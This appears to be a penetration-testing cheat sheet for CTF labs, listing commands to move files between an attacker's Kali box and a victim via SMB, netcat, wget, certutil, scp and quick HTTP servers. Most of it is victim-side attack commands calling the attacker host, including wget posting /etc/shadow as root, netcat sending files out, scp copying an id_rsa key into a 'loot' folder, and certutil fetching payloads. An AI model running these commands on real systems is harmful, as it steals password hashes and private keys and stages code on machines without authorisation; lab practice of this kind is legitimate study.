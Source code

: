 # Transferring Files

## **SMB**

**Kali**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Victim**

```
copy C:\File\to\tranfer.exe \\$KALI\public\
```

## Netcat

### Send File

**Kali(receiving)**

```
nc -l -p 1234 > user.jpg
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < user.jpg
```

## wget

### Download File

**Victim (receiving)**

```
wget http://$VICTIM/$FILE

#From non-strandard port
wget http://$VICTIM:81/$FILE
```

### Send File

**Examples**

[wgel-ctf.md](../walkthroughs/tryhackme/wgel-ctf.md "mention")

**Kali(receiving)**

```
nc -lvnp 4444
```

**Victim(sending)**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
```



## **certutil**

**Example**

[retro.md](../walkthroughs/tryhackme/retro.md "mention")[relevant.md](../walkthroughs/tryhackme/relevant.md "mention")

**Kali**

```
python2 -m SimpleHTTPServer 82
```

**Victim**&#x20;

```
certutil -urlcache -f http://$KALI:82/$FILE $FILE
```



## SCP

### Download File

**Victim**

```
scp id_rsa root@$KALI:/root/loot
```





## Share Files

### PHP

**Kali**

```
php -S 0.0.0.0:82
```

### **Python2**

**Kali**

```
python2 -m SimpleHTTPServer 82
```

### **Python3**

**Kali**

```
python3 -m http.server 82
```
